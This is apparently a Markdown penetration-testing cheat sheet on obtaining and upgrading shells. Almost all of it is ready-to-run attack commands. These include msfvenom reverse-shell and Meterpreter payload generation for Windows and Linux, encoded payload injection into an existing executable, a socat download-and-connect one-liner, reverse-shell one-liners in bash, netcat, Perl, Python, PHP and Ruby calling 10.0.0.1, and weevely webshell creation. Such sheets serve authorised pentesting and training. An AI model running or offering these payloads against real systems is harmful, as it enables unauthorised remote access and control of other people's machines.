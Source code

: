 # Shells

### Using msfvenom

#### Listing modules

```bash
msfvenom -l payloads | grep "cmd/unix" | awk '{print $1}'

#use LHOST and LPORT

#example of netcat without the -e flag
msfvenom -p cmd/unix/reverse_netcat LHOST=[ip] LPORT=4444 R

#perl reverse shell
msfvenom -p cmd/unix/reverse_perl LHOST=[ip] LPORT=4444 R
```

### Upgrading Shells

```bash
python -c 'import pty; pty.spawn("/bin/bash")'

echo os.system('/bin/bash')

/bin/sh -i

perl —e 'exec "/bin/sh";'
```

```bash
#use socat

socat file:`tty`,raw,echo=0 tcp-listen:4444 

socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444  

#one liner to download socat binary https://github.com/andrew-d/static-binaries
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

### Windows

#### Netcat

```text
nc.exe 192.168.1.101 443 -e cmd.exe
```

#### Meterpreter

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=1234 -f exe -o met_shell_reverse.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=10.0.0.1 LPORT=443 -f exe -o met_https_reverse.exe

use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set payload windows/meterpreter/reverse_https
```

#### msfvenom TCP - Reverse

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.1 LPORT=1234 -f exe -o shell_reverse_tcp.exe
nc -v -n -l -p 1234

use exploit/multi/handler
set payload windows/shell_reverse_tcp
```

#### msfvenom TCP - Reverse - Staged

```bash
msfvenom -p windows/shell/reverse_tcp LHOST=10.0.0.1 LPORT=1234 -f exe -o shell_reverse_tcp.exe

use exploit/multi/handler
set payload windows/shell/reverse_tcp
```

#### Binary Payload Injection

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=1234 -f exe -e x86/shikata_ga_nai -i 9 -x "/somebinary.exe" -o bad_binary.exe
```

### Linux

#### Netcat shell

```bash
nc -e /bin/sh 10.0.0.1 1234

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

#### Meterpreter elf binary

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=1234 -f elf > shell.elf
```

#### Bash one liner

```bash
0<&196;exec 196<>/dev/tcp/10.0.0.1/8080; sh <&196 >&196 2>&196
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
nc -v -n -l -p 8080
```

#### PERL

```bash
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

#### Python

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

#### PHP

```bash
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

#### Ruby

```bash
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### Webshells

/usr/share/webshells

weevely generate password /root/webshell.php

